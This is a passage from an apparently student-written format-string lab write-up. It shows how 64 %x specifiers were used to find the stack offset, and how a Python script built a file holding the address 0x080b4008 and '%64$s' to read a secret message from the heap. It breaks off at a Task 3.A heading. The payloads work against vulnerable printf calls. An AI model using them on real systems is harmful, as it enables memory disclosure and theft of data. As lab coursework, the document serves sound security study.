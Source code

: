 ![](https://i.imgur.com/Z6w7eCL.png)


### Task 2 

#### 2.A 

Knowing that <kbd>"AAAA"</kbd> represents <kbd>41414141</kbd> in hexadecimal, we simply had to look for this value in our output to know exactly how many %x format specifiers we needed. After experimenting, we ended up realizing that we needed 64 %x format specifiers to print out our input.

We created file1.txt with the following contents to solve this task:

```
AAAA%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
```

![](https://i.imgur.com/09MZsTT.png)


#### 2.B

To get the value of the secret message stored in the heap area we created the following python script to build our file, badfile:

```
import sys

content = (0x080b4008).to_bytes(4,byteorder='little') + ("%64$s").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```
From the server output we know the secret message's address is <kbd>0x080b4008</kbd>. We also know that by sending a "%s", printf function will try to read a string from an address. 
In the previous task we learned that the number of %x we need to get to the beginning of the stack is 64, therefore, we can specify which address we want to print by adding an offset of 64 between % and s. 
This way, our program will read a string from the address written in the 64th position in the stack which will be the secret message's address.

![](https://i.imgur.com/3fNAREi.png)

After examining the output, the secret message is:

```
A secret message
```


### Task 3

#### 3.A
